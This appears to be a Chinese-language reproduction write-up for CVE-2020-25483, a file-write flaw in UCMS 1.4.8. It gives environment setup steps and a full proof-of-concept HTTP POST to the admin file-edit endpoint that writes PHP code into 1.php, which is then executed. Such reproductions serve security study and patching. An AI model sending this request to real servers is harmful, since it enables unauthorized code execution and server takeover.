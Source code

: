 # 

# UCMS 文件上传漏洞 CVE-2020-25483

## 漏洞描述

UCMS v1.4.8版本存在安全漏洞，该漏洞源于文件写的fopen()函数存在任意命令执行漏洞，攻击者可利用该漏洞可以通过该漏洞访问服务器。

## 环境搭建

到官网http://uuu.la/下载源码（http://uuu.la/uploadfile/file/ucms_1.4.8.zip），解压到web目录，访问[http:///install/index.php](http://127.0.0.1/opensis/install/index.php)进行安装。

访问/ucms/login.php，显示正常及环境安装成功。

![20221206164828](images/20221206164828.png)

## 漏洞复现

登录账户

![](images/20221206164829.png)

poc：

访问/ucms/index.php?do=sadmin_fileedit&dir=/&file=1.php抓包。

写入php代码，发送。

```
POST /ucms/index.php?do=sadmin_fileedit&dir=/&file=1.php HTTP/1.1

Host: ucms.com

Content-Length: 58

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://ucms.com

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36 Edg/87.0.664.41

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://ucms.com/ucms/index.php?do=sadmin_fileedit&dir=/&file=CNVD.php

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: admin_213f42=admin; psw_213f42=0ef8fa2c997f64b78cde98b6c7c9cc0a; token_213f42=78012aac

Connection: close


uuu_token=78012aac&co=%3C%3Fphp+phpinfo%28%29%3F%3E&pos=17
```

get /1.php

![20221206165017](images/20221206165017.png)
